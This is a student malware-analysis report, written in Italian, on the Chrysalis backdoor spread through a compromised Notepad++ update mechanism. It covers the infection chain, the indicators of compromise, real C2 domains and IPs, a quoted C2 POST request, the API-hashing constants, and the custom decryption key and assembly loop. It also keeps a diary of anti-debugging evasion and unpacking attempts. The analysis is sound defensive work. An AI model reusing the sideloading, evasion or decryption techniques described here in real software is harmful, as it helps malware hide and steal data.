# Analisi Malware Chrysalis

<u>**Studenti**</u>

- De Lucia Simone M63001720
- Covone Gabriel M63001809

## Descrizione 

Nel febbraio 2026 il gruppo di ricerca di Rapid7 fa luce su una campagna malware attribuita al gruppo APT Lotus Blossom che coinvolge il meccanismo di update automatici dell'applicazione di note Notepad++, rivelandosi di fatto un attacco supply chain. In particolare, la campagna ha avuto vari step tra cui 
- la compromissione dei sistemi di rilascio degli update, accedendo in maniera non autorizzata ai sistemi di rilascio degli update
- dirottare selettivamente alcuni traffici  verso la risorsa mediante file manifest XML customizzati, costringendo così a forzare il software degli update automatici usato da Notepad++, in questo caso WinGUp. 
- installare su target specifici dei pacchetti compromessi, sfruttando l'assenza di meccanismi di controllo dell’integrità crittografica nelle versioni del client WinGUp precedenti alla 8.8.9.


La campagna malware ha avuto una finestra temporale di circa 5 mesi, dal settembre 2025 al gennaio 2026; Le vittime si concentravano in organizzazioni governative, istituzioni finanziarie e fornitori di servizi IT.  
In particolare, sono state colpite
- Un'organizzazione governativa nelle Filippine.
- Un fornitore di servizi IT in Vietnam.
- Un'istituzione finanziaria in El Salvador.
- Singoli utenti tecnici localizzati in Vietnam, Australia ed El Salvador.

Durante questo periodo, il malware ha operato in maniera silenziosa in tutti i sistemi infetti, effettuando information gathering e ottenendo accessi a sistemi critici in maniera remota. Inoltre, sono state trovate varie tipologie di loader e di servizi URL legati all'attacco in sé 



### Chrysalis

Durante questa campagna, l'ultimo malware utilizzato è stato rinominato Chrysalis.
La sua caratteristica principale risiede nel meccanismo di persistenza e di sofisticatezza del tool, oltre che a tanti strumenti di offuscamento. Il malware in sé viene accoppiato anche da capacità di comunicazioni C2 e di esfiltrazione dati.

### Tool Utilizzati

I tool utilizzati sono suddivisi in base alla fase operativa per intercettare, decodificare e sconfiggere i meccanismi di evasione del malware:

| Fase | Strumenti | Scopo Principale |
| :--- | :--- | :--- |
| **1. Triage e Analisi Statica** | PEstudio, PEview, capa | Ispezione degli header PE, controllo dell'entropia/offuscamento e analisi iniziale delle capability delle API. |
| **2. Monitoraggio e Simulazione** | Procmon, FakeNet-NG, Wireshark | Monitoraggio in tempo reale del comportamento locale (registro/file) e simulazione del traffico di rete verso il C2. |
| **3. Debugging e Memory Dumping** | x32dbg, ScyllaHide, Scylla, PE-bear | Esecuzione controllata passo-passo, evasione delle difese anti-debug, dumping del payload e ricostruzione della IAT. |
| **4. Reverse Engineering e IoC** | IDA Freeware 8.2, FLOSS, yarGen | Decompilazione per lo studio della logica interna del malware, de-offuscamento automatico delle stringhe e creazione di regole YARA. |


## Analisi

### Descrizione Chrysalis
Chrysalis è un malware backdoor (attribuito al gruppo APT Lotus Blossom) che viene distribuito tramite un installer NSIS compromesso (`update.exe`). La sua particolarità risiede nell'utilizzo di una catena di DLL Sideloading e nell'impiego di tecniche avanzate di evasione e offuscamento (come API Hashing e un algoritmo di decrittazione custom).

L'architettura del flusso di esecuzione è riassunta nel seguente diagramma:



1. **L'Installer NSIS (`update.exe`)**: Avvia l'infezione estraendo tre componenti principali all'interno della cartella `%appdata%\Roaming\Bluetooth\`:
   - `BluetoothService.exe` (un eseguibile legittimo firmato da Bitdefender, originariamente `BDSubWizMT.exe`).
   - `log.dll` (la libreria dinamica malevola).
   - `BluetoothService` (il payload contenente lo shellcode offuscato, privo di estensione).
2. **DLL Sideloading**: All'avvio di `BluetoothService.exe`, il sistema operativo Windows carica automaticamente `log.dll` presente nella stessa cartella (sideloading).
3. **Esecuzione dello Shellcode**: La funzione di inizializzazione di `log.dll` (`DllMain` / `LogInit`) legge il file `BluetoothService` crittografato dal disco, lo decritta in memoria RAM usando un algoritmo matematico custom e vi trasferisce l'esecuzione.
4. **Comunicazione C2**: Il payload finale decrittato (backdoor Chrysalis) effettua la profilazione dell'host e si connette al server di Command and Control (C2) per l'esfiltrazione e la ricezione di comandi.

---

### Esecuzione del malware e Indicatori di Compromissione (IoC)

#### File creati nell'host
Il malware deposita i propri componenti all'interno della directory di sistema `%appdata%\Roaming\Bluetooth\`.




I file malevoli identificati sono:
* **`BluetoothService.exe`**: Eseguibile legittimo ma vulnerabile (Bitdefender Submission Wizard) utilizzato come esca per caricare la DLL.
  
* **`log.dll`**: L'iniettore / loader malevolo che contiene l'algoritmo di decrittazione e le routine di API hashing.
* **`BluetoothService`**: Shellcode cifrato contenente il payload della backdoor reale.

#### Persistenza e Chiavi di Registro
Per garantire l'esecuzione automatica ad ogni avvio dell'host, il malware registra un servizio di sistema denominato `BluetoothService`.




* **Servizio creato**: `BluetoothService`
* **Chiave di registro**: `HKLM\SYSTEM\CurrentControlSet\Services\BluetoothService`
* **Comando di esecuzione**: `C:\Users\unina\AppData\Roaming\Bluetooth\BluetoothService.exe -i` (eseguito con privilegi di `LocalSystem`).

Durante l'esecuzione, il malware effettua la profilazione del sistema leggendo l'identificativo univoco della macchina tramite la chiave:
* `HKLM\Software\Microsoft\Cryptography\MachineGuid`



#### Connessioni all'esterno e Traffico C2
Una volta decrittato ed eseguito in memoria, il malware tenta di stabilire una connessione HTTPS cifrata verso il proprio server C2. 

Il traffico di rete catturato e analizzato è archiviato nella cartella [traffico_malevolo](file:///mnt/c/Users/SiMonee/Desktop/Coding/ChrysalisAnalysis/traffico_malevolo/) (suddiviso per sessioni di analisi `16-06` e `19-06`).



Dall'analisi delle richieste HTTP registrate (es. `http_20260619_083055.txt` e i file `.pcap`), emerge il seguente pattern di comunicazione C2:
* **Host remoto**: `api.skycloudcenter.com`
* **Indirizzo IP intercettato (Test/FakeNet)**: `192.0.2.123` (port 443 HTTPS) - *Nota: questo IP appartiene alla rete di test di FakeNet-NG che ha reindirizzato localmente le richieste.*
* **Indirizzo IP reale di C2 (Threat Intelligence)**: L'analisi del traffico reale e i report di intelligence collegano il dominio `api.skycloudcenter.com` del gruppo Lotus Blossom principalmente a:
  - **`61.4.102.97`** (IP di C2 primario)
  - Altri IP ruotati durante la campagna: `59.110.7.32`, `124.222.137.114`, `95.179.213.0`, `160.250.93.48`.
* **Struttura della richiesta POST**:
  ```http
  POST /a/chat/s/70521ddf-a2ef-4adf-9cf0-6d8e24aaa821 HTTP/1.1
  Host: api.skycloudcenter.com
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.4044.92 Safari/537.36
  Content-Type: text/html
  ```

#### Analisi e Considerazioni sul Traffico TCP e sull'Iniezione di Pacchetti (WinDivert)
Dall'analisi dinamica e dall'ispezione dei dettagli delle connessioni TCP tramite Process Monitor, emergono importanti evidenze tecniche sull'architettura e sul comportamento di rete del malware.



1. **Analisi del flusso TCP :**
   * **Processo mittente:** L'attività di rete è generata apparentemente dall'eseguibile `BluetoothService.exe` (con PID `7952`).
   * **Indirizzo IP di destinazione:** Il malware tenta di connettersi all'IP `192.0.2.123` sulla porta `443` (HTTPS) a partire dalle porte locali effimere `50958` e `50959`. *Nota: l'IP `192.0.2.123` appartiene al range TEST-NET-1 (RFC 5737), tipicamente utilizzato in ambienti di laboratorio isolati tramite FakeNet-NG per intercettare il traffico.*
   * **Pattern delle connessioni:**
     * **Prima connessione (porta locale 50958):** Avviene un primo invio TCP (lunghezza 51 byte) seguito da un secondo invio (495 byte). Il server risponde con tre ricezioni TCP consecutive (rispettivamente di 153, 1460 e 16 byte), per poi chiudere la connessione. Questo comportamento rispecchia lo scambio di messaggi tipico di un handshake TLS (Client Hello, Server Hello, Certificate) e l'inizio del flusso cifrato.
     * **Seconda connessione (porta locale 50959):** Circa 5 secondi dopo la chiusura della prima sessione, il malware avvia una seconda connessione eseguendo un handshake TCP, inviando 381 byte e ricevendo in risposta 109 byte di dati dal server.
   * **Crittografia TLS:** Essendo la comunicazione instradata sulla porta 443 (HTTPS), i payload applicativi risultano cifrati a livello di trasporto. Inoltre, poiché Process Monitor acquisisce le chiamate a livello di kernel/socket e non a livello applicativo, i dati di alto livello (come i path delle URL, gli header HTTP e lo User-Agent) non sono visibili direttamente in questa traccia (ma sono stati estratti tramite FakeNet-NG e Wireshark).



2. **Analisi dello Stack Trace e Deviazione del Traffico (`tcp_send_traffic.png`):**
   * **Presenza di WinDivert:** La stack trace associata all'evento di `TCP Send` rivela la presenza del driver di rete **`WinDivert64.sys`**, caricato da una cartella temporanea dell'utente:
     `C:\Users\unina\AppData\Local\Temp\_MEI28002\pydivert\windivert_dll\WinDivert64.sys`
   * **Meccanismo di Packet Injection:** Il modulo di sistema `fwpkclnt.sys` mostra chiamate dirette a `FwpsInjectNetworkSendAsync0` e `FwpsStreamInjectAsync0`. Questo dimostra che il malware non sta inviando il traffico tramite le API standard dei socket di Windows (come `ws2_32.dll`), ma sta intercettando e iniettando i pacchetti a basso livello nel Windows Filtering Platform (WFP) tramite il driver WinDivert.
   * **Compilazione tramite PyInstaller:** Il percorso temporaneo contenente il pattern `_MEIxxxxx` (nello specifico `_MEI28002`) è l'indicatore tipico degli eseguibili pacchettizzati in Python tramite **PyInstaller**. All'avvio dell'applicazione, l'eseguibile scompatta le proprie dipendenze (tra cui la libreria Python `pydivert` e il rispettivo driver `WinDivert64.sys`) nella directory temporanea di Windows.
   * **Esecuzione in WoW64:** La presenza nello user-mode stack delle sole funzioni `ntdll.dll!LdrInitializeThunk`, `wow64.dll!Wow64LdrpInitialize` e `wow64cpu.dll!TurboDispatchJumpAddressEnd` indica che si tratta di un processo a 32 bit eseguito su un'architettura a 64 bit, e che il codice del malware ha invocato il driver di rete direttamente durante le fasi di inizializzazione dei thread (pre-Entry Point o tramite iniezione).

#### Evasione, Monitoraggio e Chiusura
Durante il monitoraggio dell'esecuzione del malware tramite Process Monitor, si osserva la terminazione improvvisa del thread principale e del processo una volta completata l'iniezione, allo scopo di eludere l'analisi dinamica.




La stack trace dell'evento di `Thread Exit` mostra come l'esecuzione passi attraverso le librerie `wow64cpu.dll` (`BTCpuSimulate`) e `ntdll.dll` (`NtTerminateThread`), a conferma del fatto che il malware avvia il proprio codice e poi termina il thread primario per disorientare i debugger.


## 🗺️ Roadmap di Analisi Operativa

### Analisi di Dettaglio dei Componenti e Ingegneria Inversa

#### 📦 1. `update.exe` (Dropper NSIS)
*   **Tecnologia:** Archivio autoinstallante NSIS (Nullsoft Scriptable Install System).
*   **Funzione principale:** Estrae i componenti malevoli nella directory di sistema `%APPDATA%\Roaming\Bluetooth\`.
*   **Tecniche di Evasione e Permessi NTFS Custom:**
    *   **DACL personalizzata:** La subroutine `sub_405B06` definisce un descrittore di sicurezza personalizzato applicato alla cartella creata. Nello specifico, imposta una DACL con due ACE (Access Control Entries):
        1.  *ACE 1:* Permessi di `ACCESS_ALLOWED` su `BUILTIN\Administrators` con flag `GENERIC_ALL` (controllo completo).
        2.  *ACE 2:* Permessi di `ACCESS_ALLOWED` su `Everyone` limitati esclusivamente a `READ_CONTROL`, `FILE_READ_DATA`, `FILE_DELETE_CHILD` e `SYNCHRONIZE`. Questa configurazione impedisce modifiche o scritture successive ma consente la lettura e la cancellazione manuale del contenuto.
    *   **Attributi Hidden/System:** L'installer richiama l'API `SetFileAttributesW` per camuffare i file estratti sul file system. La funzione `sub_401434` ricicla il parametro `nCmdShow` della funzione `WinMain` dell'eseguibile (tipicamente impostato a `2` o `6`) passandolo direttamente come `dwFileAttributes`. Se il valore corrisponde a tali costanti, i file e la cartella vengono configurati come nascosti o di sistema (`FILE_ATTRIBUTE_HIDDEN` o `HIDDEN|SYSTEM`), celandoli a ricerche visive superficiali da parte dell'utente.
    *   **Persistenza nel Registro:** L'archivio NSIS contiene uno script compilato (opcode `0x33`) che richiama `RegSetValueExW` per registrare il valore `BluetoothService` sotto la chiave di avvio automatico `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`, puntando all'eseguibile esca.

#### ⚙️ 2. `BluetoothService.exe` (Loader & Esca Sideloading)
*   **Firma e Autenticità:** Originariamente l'eseguibile `BDSubWizMT.exe` (Bitdefender Submission Wizard), firmato digitalmente ma vulnerabile. Il malware lo utilizza come esca legittima per forzare il caricamento dinamico della libreria malevola presente nella stessa directory.
*   **Flusso di Caricamento (`LogLoader_Init`):**
    *   La subroutine `sub_404760` recupera la directory in cui risiede l'eseguibile tramite `GetModuleFileNameW`.
    *   Sostituisce il nome dell'eseguibile nel percorso per concatenare ed individuare il file `log.dll`.
    *   Effettua il caricamento manuale della libreria tramite `LoadLibraryW(L"log.dll")`.
    *   Risolve dinamicamente le esportazioni di log richiamando `GetProcAddress` per le funzioni `LogInit`, `LogWrite`, `LogApplySettings`, e altre.
    *   Salva i puntatori a queste funzioni all'interno di una struttura globale (`dword_4BCFBC`).
    *   Avvia l'esecuzione del malware richiamando immediatamente l'esportazione `LogInit()` risolta dal DLL.

#### 🛠️ 3. `log.dll` (Loader Intermedio e API Hashing)
*   **Falsi Metadati:** Esporta circa 15 funzioni con nomi tipici di librerie di logging di sistema (es. `LogInit`, `LogWrite`, `LogApplySettings`, `LogDeinit`).
*   **Meccanismo di API Hashing:**
    *   Per evitare il rilevamento delle API importate, la libreria risolve gli indirizzi delle funzioni a runtime scorrendo le Export Table dei DLL caricati (come `winhttp.dll`, `dnsapi.dll`, `ws2_32.dll`) tramite la subroutine `sub_100014E0`.
    *   **Algoritmo di hashing (FNV-1a modificato):**
        1. Calcola l'hash FNV-1a standard a 32 bit del nome dell'API (costante di inizializzazione `0x811C9DC5` e moltiplicatore `16777619`).
        2. Esegue un'operazione XOR dell'hash con il suo shift logico a destra di 15 bit: `h = h ^ (h >> 15)`.
        3. Moltiplica il valore ottenuto per la costante `-2048144789` (ovvero `0x85EB87EB`).
        4. Esegue un'operazione XOR dell'hash finale con il suo shift a destra di 13 bit: `h = h ^ (h >> 13)`.
        5. Somma all'hash calcolato una chiave statica inizializzata all'avvio a `535972289` (`0x1FF09DC1`): `hash_finale = h + 0x1FF09DC1`.
    *   Di seguito sono riportati gli hash decodificati delle API risolte da `log.dll`:
        *   **`winhttp.dll`:** `WinHttpOpen` (0x68C6D1D7), `WinHttpConnect` (0xB26E0E90), `WinHttpOpenRequest` (0xB22C9C14), `WinHttpSendRequest` (0x069E8B9B), `WinHttpReceiveResponse` (0x06AEB5BB), `WinHttpReadData` (0x28F634E3), `WinHttpSetStatusCallback` (0x4E6B404E), `WinHttpSetTimeouts` (0x8E867846).
        *   **`kernel32.dll`:** `VirtualAlloc` (0xBA4AE021), `VirtualProtect` (0x7DADB766), `CreateThread` (0xEA8D815C), `WaitForSingleObject` (0x31854D48), `LoadLibraryA` (0xE0CDA96B), `GetProcAddress` (0xB3A0A405).
        *   **`wininet.dll`:** `InternetOpenW` (0x2482E712), `InternetConnectW` (0x37C94070), `HttpOpenRequestW` (0xD42E1C6B), `HttpSendRequestW` (0xAFFE7343), `InternetReadFile` (0x19CD23D9).
        *   **`dnsapi.dll`:** `DnsQuery_W` (0x3E77D6C4), `DnsQuery_A` (0x00C99B0D), `DnsFree` (0x297ABAA0).
        *   **`ws2_32.dll`:** `WSAStartup` (0x098E4D98), `WSASocketW` (0x1553FF5F), `connect` (0x9348B408), `send` (0x20C5BD00), `recv` (0x10A4DD14), `closesocket` (0xEA5FEB68).
*   **Decrittazione e Setup dello Shellcode:**
    *   `LogInit` alloca un'area di memoria Heap da 2 MB nel processo host per accogliere lo shellcode.
    *   La funzione `LogWrite` popola il buffer allocato e vi inserisce una struttura di configurazione (`v3`) contenente puntatori a helper di risoluzione API ed informazioni sulla memoria.
    *   `LogWrite` richiama infine la routine crittografica `sub_10001640` (decrittazione XOR progressiva a tre fasi) e trasferisce il controllo allo shellcode eseguendo una chiamata dinamica (`call eax`).

#### 🚀 4. Lo Shellcode (Unpacking Stub & Algoritmo Cifrario Custom)
*   **Posizione:** Eseguito nello spazio di memoria Heap dinamico (offset `0x053C401F`).
*   **Struttura:** Lo shellcode è diviso in due aree principali:
    1.  **Stub di bootstrap (in chiaro):** Contiene le istruzioni Assembly per decrittare la porzione successiva e mappare le sezioni PE in memoria RAM.
    2.  **Dati cifrati (offset `0x2000` / `0x053C601F` in poi):** Contiene il payload binario crudo della backdoor Chrysalis.
*   **Algoritmo di Decrittazione Proprietario (APT Lotus Blossom):**
    Lo stub esegue un loop decifrando il codice byte per byte in memoria RAM per un totale di 5 passaggi. L'algoritmo fa uso della chiave statica hardcoded a 8 byte: **`gQ2JR&9;`** (in esadecimale: `67 51 32 4A 52 26 39 3B`).
    Per ciascun byte cifrato `x` all'offset corrente e rispettivo byte di chiave `k = KEY[counter % 8]`, le istruzioni Assembly eseguite sono:
    ```assembly
    mov cl, [ebp+eax-4Ch]   ; Carica il byte di chiave (k)
    mov al, [ebx+edx]       ; Carica il byte cifrato (x)
    add al, cl              ; Fase 1: Addizione (x = x + k)
    xor al, cl              ; Fase 2: Operazione XOR (x = x ^ k)
    sub al, cl              ; Fase 3: Sottrazione (x = x - k)
    mov [edx], al           ; Scrittura del byte decrittato
    ```
*   **Mappatura IAT e Lancio:**
    Una volta decifrate le sezioni PE dell'eseguibile malevolo finale in memoria RAM, lo shellcode risolve la Import Address Table (IAT) richiamando dinamicamente `LoadLibraryA` e `GetProcAddress`. Infine, l'esecuzione viene ceduta alla backdoor principale saltando all'Entry Point reale dell'immagine iniettata.

### 🗂️ Sintesi del Workflow di Analisi

La roadmap operativa si articola in tre fasi sequenziali per l'estrazione, la decodifica e lo studio del payload finale:

| Fase | Descrizione | Obiettivo Principale | Strumenti Utilizzati |
| :--- | :--- | :--- | :--- |
| **Fase 1** | **Preparazione dell'Ambiente e dei File** | Allestimento sandbox isolata, configurazione directory `%appdata%` e ripristino dei nomi dei file per attivare il sideloading. | VM Windows, File Explorer |
| **Fase 2** | **Analisi Dinamica e Memory Dumping** | Bypass delle tecniche di evasione ed esecuzione controllata in x32dbg per dumpare il payload decrittato in RAM. | x32dbg, ScyllaHide, Procmon, FakeNet-NG |
| **Fase 3** | **Riparazione PE e Reverse Engineering** | Ricostruzione della IAT e delle intestazioni PE del dump, estrazione IOC e analisi statica dettagliata del codice. | PE-bear, Ghidra, IDA Freeware, Python |

---

### 🧪 Fase 1: Preparazione dell'Ambiente e dei File

L'obiettivo di questa fase è preparare un ambiente di analisi sicuro e ripristinare la catena di infezione originale per consentire il corretto innesco del DLL Sideloading senza attivare meccanismi di difesa o comunicare con server esterni.

#### 🛡️ 1. Prerequisiti di Sicurezza
Prima di manipolare l'archivio crittografato dei malware, è fondamentale isolare l'ambiente:
* **Isolamento di Rete:** Disabilitare la scheda di rete della Macchina Virtuale dall'hypervisor o configurarla su *Host-Only* (evitando NAT/Bridge) per impedire comunicazioni esterne.
* **Visibilità Estensioni:** Configurare Windows Explorer affinché mostri le estensioni dei file (scheda *Visualizza* > spunta su *Estensioni nomi file*), prevenendo doppie estensioni ingannevoli (es. `.exe.exe`).
* **Snapshot di Ripristino:** Creare uno snapshot pulito della VM prima dell'inizio delle attività come punto di ripristino sicuro.

#### 📂 2. Configurazione della Directory di Esecuzione
Per eludere i controlli di percorso eseguiti dalla backdoor, occorre simulare la struttura di directory prevista:
1. Aprire la finestra "Esegui" (`Win + R`), digitare `%appdata%` e premere Invio per accedere a `AppData\Roaming`.
2. Creare una cartella chiamata esattamente `Bluetooth`.
3. Il percorso finale target deve essere: `C:\Users\[NomeUtente]\AppData\Roaming\Bluetooth\`

#### 🏷️ 3. Estrazione e Ripristino dei File
I campioni malevoli estratti dall'archivio (password: `infected`) si presentano rinominati con i propri hash SHA-256 e provvisti di estensioni di sicurezza. Per ricreare la catena di sideloading, rinominare i file secondo questo schema:

1. **L'Esca (Eseguibile Legittimo Vulnerabile):**
   * *File originale:* `a511be5164dc...` (Applicazione, ~681 KB)
   * *Nuovo nome:* `BluetoothService.exe`
2. **L'Iniettore (DLL Malevola):**
   * *File originale:* `3bdc4c063759...` (Estensione applicazione, ~84 KB)
   * *Nuovo nome:* `log.dll`
3. **Il Payload (Dati Criptati / Shellcode):**
   * *File originale:* `_77bfea78def...infected` (File INFECTED, ~197 KB)
   * *Azione:* Rimuovere il carattere di underscore iniziale (`_`) e l'estensione difensiva `.infected`.
   * *Nuovo nome:* `BluetoothService` (senza alcuna estensione)

#### ⚡ 4. Assemblaggio della Catena
Spostare i tre file ripristinati (`BluetoothService.exe`, `log.dll` e `BluetoothService`) all'interno della directory creata al punto 2 (`%appdata%\Bluetooth\`). La catena di sideloading è ora pronta per l'esecuzione controllata.


### Fase 2: Analisi Dinamica e Bypass Anti-Debugging (In corso)
🎯 Obiettivo della Fase
Intercettare il processo di spacchettamento (unpacking) del payload dannoso in memoria, analizzando il comportamento della DLL infetta (log.dll) caricata tramite tecnica di DLL Sideloading dall'eseguibile esca (bluetoothservice.exe).


📝 Diario di Analisi e Ostacoli Incontrati
1. Primo Tentativo: Software Breakpoints sulle API Standard
Azione: Piazzati Software Breakpoint (SetBPX) sulle principali funzioni di iniezione di Windows (VirtualAlloc, VirtualProtect, CreateProcessInternalW, ecc.) all'Entry Point del programma.

Risultato: Fallimento. Il debugger ha segnalato Terminated prima di raggiungere le funzioni monitorate.

Analisi Procmon: Escludendo il rumore del Registro di Sistema, l'analisi ha rivelato che l'eseguibile ha caricato correttamente log.dll ma si è poi chiuso improvvisamente. Successivamente, è emerso un rapido cambio di PID, con la comparsa di cloni del processo principale e conseguenti errori di SHARING VIOLATION.

Conclusione: Il malware ha rilevato la presenza del debugger (o la modifica della RAM dovuta ai byte 0xCC dei breakpoint software) e ha eseguito una tecnica di evasione clonando se stesso in background (Bait and Switch/Process Spawning).

2. Secondo Tentativo: Potenziamento ScyllaHide
Azione: Ripristino dello snapshot della VM. Configurazione del profilo ScyllaHide su VMProtect x86/x64 aggiungendo spunte mirate:

Timing Hooks: (GetTickCount, NtQueryPerf.Counter) per impedire al malware di misurare il tempo di esecuzione.

DRx Protection: Per nascondere la presenza di breakpoint hardware alla CPU.

Hide from PEB / System Info: Per rendere invisibile x32dbg alla lista dei processi attivi.

Risultato: Fallimento. Il debugger si è arrestato nuovamente senza far scattare le trappole.

3. Terzo Tentativo: Breakpoint Hardware (HWBP) sulle API Native
Azione: Sostituzione dei Software Breakpoint (visibili nella RAM) con Hardware Breakpoint (bph), invisibili al malware in quanto salvati direttamente nei registri della CPU (limite massimo di 4 slot).

Target Spostato a livello Kernel: Sono state monitorate le API non documentate (Native) di Windows per intercettare le chiamate di livello più basso:

NtAllocateVirtualMemory

NtWriteVirtualMemory

NtResumeThread

CreateProcessInternalW

Risultato: Il debugger ha correttamente intercettato NtAllocateVirtualMemory durante le fasi iniziali di caricamento di Windows (creazione dell'Heap tramite RtlCreateHeap), ma il malware è sfuggito nuovamente creando un processo clone (es. PID 240) bypassando l'Entry Point dell'eseguibile.

4. La Rivelazione Architetturale: Esecuzione in DllMain
Azione: Analisi del flusso di caricamento.

Conclusione Fondamentale: Il malware non attende l'Entry Point ufficiale (OptionalHeader.AddressOfEntryPoint) dell'eseguibile per avviare il suo codice. Sfruttando la logica di Windows, il codice malevolo viene eseguito all'interno della funzione di inizializzazione della libreria stessa (DllMain) nel millisecondo esatto in cui il sistema operativo carica log.dll in memoria.

Stato Attuale: Arrivando all'Entry Point, il debugger giunge in ritardo sulla "scena del crimine", quando il processo di iniezione è già avvenuto e il malware ha già spostato l'esecuzione nel nuovo PID.

Per neutralizzare questa strategia di evasione, è necessario spostare la linea di difesa prima dell'Entry Point.

Attivare l'opzione User DLL Entry nelle preferenze (Events) di x32dbg.

Eseguire il programma un modulo alla volta (F9 progressivo).

Congelare l'esecuzione nell'istante esatto in cui il debugger notifica il caricamento del modulo log.dll, prima che venga eseguita la sua DllMain.

5. Quinto Tentativo: Congelamento in DllMain e Mascheramento Avanzato

Azione: Disattivazione dei breakpoint software. Attivazione dell'opzione User DLL Entry in x32dbg per intercettare il caricamento pre-Entry Point. Utilizzo simultaneo di ScyllaHide con spunte mirate su Timing Hooks (per falsificare l'orologio di sistema e ingannare l'istruzione RDTSC) e DRx Protection (per nascondere i Breakpoint Hardware).

Risultato: Fallimento "a scoppio ritardato". Il malware evade sistematicamente al secondo tentativo di esecuzione.

Conclusione: Il malware implementa un controllo di persistenza o verifica lo stato ambientale/PEB (BeingDebugged). Rileva i residui della sessione precedente, rendendo necessario operare in Clean State continuo (tramite ripristino snapshot VM) ed escludendo l'uso di breakpoint temporali che alterano il normale flusso di caricamento.

6. Sesto Tentativo: Intercettazione API Crittografiche Native (Il pensiero laterale)

Azione: Tentativo di bypassare la logica anti-debug estraendo il payload a valle della decrittazione. 
Ispezione della scheda Simboli di x32dbg per individuare le librerie crittografiche caricate. 
Posizionamento di Breakpoint Hardware in Esecuzione (HWBP) sulle API native di decrittazione: CryptDecrypt (advapi32.dll) e BCryptDecrypt (bcrypt.dll).  
Risultato: Evasione completa. 
I breakpoint sulle API crittografiche non sono mai scattati.  
Conclusione Fondamentale: L'autore del malware non si affida alle librerie crittografiche di Windows (CryptoAPI/CNG).
log.dll integra un algoritmo di decrittazione custom (es. XOR, RC4) compilato staticamente nel proprio codice.  

7. Settimo Tentativo: Memory Allocation Trap (La "Tela Vuota")  
Obiettivo: Dato che il metodo di decrittazione è sconosciuto, intercettare la destinazione finale del payload decrittato.

Azione:

Ripristino in Clean State.

Piazzamento HWBP su NtAllocateVirtualMemory (Ring 0).

Utilizzo dello stepping Execute till Return (Ctrl+F9) per far completare la richiesta di memoria al sistema operativo.

Analisi dello Stack: poiché l'API è nativa, l'indirizzo della memoria allocata non viene restituito in EAX (che contiene solo lo STATUS_SUCCESS), ma tramite un puntatore letto nel parametro [esp+8].

Filtraggio del Rumore: L'analisi del Call Stack ha evidenziato la necessità di filtrare le normali allocazioni di sistema. Molte interruzioni iniziali su NtAllocateVirtualMemory ritornavano a ntdll.RtlCreateHeap (il sistema operativo che prepara l'Heap). La procedura richiede di ignorare queste chiamate legittime eseguendo cicli continui, fermandosi solo quando il return address nello Stack punterà direttamente a log.dll o a un modulo sconosciuto.

8. Ottavo Tentativo: La Trappola su ZwProtectVirtualMemory e Scansione Progressiva

Azione: Abbandonata l'allocazione di memoria a causa dell'eccessivo "rumore" di sistema. Posizionato un Hardware Breakpoint su ZwProtectVirtualMemory (usata dai packer per rendere eseguibile la memoria appena scritta). Ad ogni hit del breakpoint (F9), è stata eseguita una Ricerca Globale (Pattern Search) nella RAM per l'intestazione esadecimale PE: 4D 5A 90 00 03 00 00 00.

Risultato: Successo parziale. Dopo svariati cicli, la scansione ha individuato un nuovo blocco dinamico (es. 006C0000) contenente i Magic Bytes e la dicitura This program cannot be run in DOS mode. Il blocco è stato estratto tramite "Dump Memory to File".

9. Nono Tentativo: Riparazione in PE-bear e la Falsa Pista (Decoy PE)

Azione: Il file binario estratto dalla RAM non veniva riconosciuto da IDA Free a causa del disallineamento della memoria (Virtual vs Raw). Il file è stato caricato in PE-bear per correggere chirurgicamente i Section Headers, sovrascrivendo i campi Raw Addr e Raw size con i valori corrispondenti alle colonne Virtual Addr e Virtual Size.

Risultato: IDA ha riconosciuto l'eseguibile riparato, ma il disassemblaggio forzato (tasto 'C') e l'ispezione delle stringhe (Shift+F12) hanno svelato un inganno. La sezione .text conteneva solo 176 byte. Non c'era traccia di codice Assembly eseguibile, ma esclusivamente informazioni sui metadati (es. ProductVersion, en-US).

Conclusione: Il malware ha ingannato l'analista iniettando una "DLL fantasma" o un mini-eseguibile esca per simulare un avvenuto unpacking. Il payload vero e proprio, di dimensioni nettamente superiori, è ancora celato all'interno del processo originale.

Next Step (In corso): Ripristinare la Macchina Virtuale, lanciare nuovamente la trappola su ZwProtectVirtualMemory in x32dbg e analizzare la Memory Map filtrata per Dimensione (Size) per individuare grandi blocchi (es. 200+ KB) allocati dinamicamente (PRV/MAP) con permessi ERW/RW, isolando così il vero payload.


10. Decimo Tentativo: Frammentazione della Memoria (Memory Spraying) e Fallimento HWBP in Scrittura
Azione: A seguito della scoperta del falso payload, si è tentato di monitorare in tempo reale i blocchi di memoria allocati dinamicamente (con permessi ERW) utilizzando la Memory Map di x32dbg. 
È stato piazzato un Breakpoint Hardware in Accesso/Scrittura su un blocco candidato per intercettare l'istante esatto della decrittazione.  
Risultato: Evasione. Il malware genera un "rumore" ambientale estremo attraverso una tecnica di Memory Spraying, allocando decine di piccoli frammenti (es. 4 KB) per disorientare l'analista. 
Inoltre, sfrutta una decrittazione in-place, sovrascrivendo e rilasciando continuamente i buffer, non lasciando tracce contigue nella RAM.Conclusione: L'architettura di Chrysalis (attribuita all'APT Lotus Blossom) rende l'analisi dinamica in memoria strutturalmente inefficace e incline a falsi positivi.  

11. Undicesimo Tentativo: Analisi Statica su log.dll e Scoperta dell'API Hashing
Azione: Abbandono del debugging dinamico in favore dell'analisi statica della libreria iniettrice log.dll tramite IDA Freeware 8.2. 
Ricerca delle routine di base responsabili del caricamento.  
Risultato: Individuazione di un denso blocco matematico all'interno della sequenza di innesco, inizialmente scambiato per l'algoritmo di decrittazione (LCG). L'analisi delle costanti esadecimali (811C9DC5h e 85EBCA6Bh) ha rivelato che il malware sta in realtà implementando un sofisticato sistema combinato di hashing (FNV-1a e MurmurHash3).
Conclusione: Il malware protegge le proprie intenzioni tramite API Hashing. Non importa o chiama le funzioni di sistema (come VirtualAlloc o ReadFile) in chiaro. Al contrario, risolve i loro indirizzi in memoria confrontando gli hash e li salva all'interno di una tabella di Puntatori a Funzione nascosta nella sezione .rdata (dati in sola lettura).


12. Dodicesimo Tentativo: Tracking Dinamico, Esecuzione dello Shellcode e Decrittazione Finale

Azione: Bypassata la barriera dell'API Hashing, è stato eseguito un tracciamento dinamico manuale in x32dbg ponendo breakpoint mirati sulla chiamata che inizializza la decrittazione (bp 709D1B62 su call sub_10001640) e sul salto finale dell'esecuzione (bp 709D1C25 su call eax).

